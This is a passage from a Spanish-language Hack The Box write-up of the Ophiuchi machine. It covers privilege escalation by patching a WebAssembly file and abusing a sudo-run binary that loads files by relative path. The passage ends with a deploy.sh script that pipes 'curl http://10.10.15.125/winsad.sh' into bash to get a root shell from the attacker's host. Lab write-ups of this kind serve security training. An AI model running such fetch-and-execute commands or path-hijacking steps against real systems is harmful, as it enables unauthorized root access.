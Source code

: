  Ya que tengo el binario en la ruta que me importa hago uso del comando sudo para comprobar si el binario tiene seteado ese valor en la variable **info**:

 <p align="center">
 <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/Ophiuchi/intrusion/pru.png">
 </p>

Como se puede ver en **main.wasm** no esta seteado el valor una forma de cambiar esto es compartiendo me el binario a mi maquina y con la utilidad **[wabt](https://github.com/webassembly/wabt)** modificar ese valor de **main.wasm**.

Para esto me enviare el binario a mi maquina con nc.

<p align="center">
<img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/Ophiuchi/intrusion/com.png">
</p>

Una vez que ya esta en mi maquina con la herramienta **wasm2wat** convertimos el binario a wat para poder modificar su valor:

<p align="center">
<img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/Ophiuchi/intrusion/com1.png">
</p>

Ahora que tengo el **main.wat** puedo modificar el valor de **$info** para eso cambiare la  linea 4:

```bash
  before
   4   │     i32.const 0)
  after
   4   │     i32.const 1)
```
Una vez que se cambia el valor uso la herramienta **wat2wasm** y me comparto con python un servicio http en mi equipo para que desde la maquina victima con **wget** descargarme el archivo **main.wasm** modificado.

<p align="center">
<img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/Ophiuchi/intrusion/com2.png">
</p>

Ya con el binario modificado en mi maquina vuelvo a ejecutar el comando con **sudo** recordando que si me ejecuta el **deploy.sh** me enviar el output del **whoami** a mi maquina por el puerto 443.

<p align="center">
<img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/Ophiuchi/intrusion/who.png">
</p>

Como se puede ver efectivamente a la hora de ejecutar el comando con sudo me toma mis binarios ya que no están siendo llamados de forma absoluta si no relativa, por ende como veo que puedo ejecutar comando como root me entablare una shell a mi maquina modificando el archivo **deploy.sh** con el siguiente contenido:

**deploy.sh**
```bash
  #!/bin/bash

  curl http://10.10.15.125/winsad.sh | bash
```
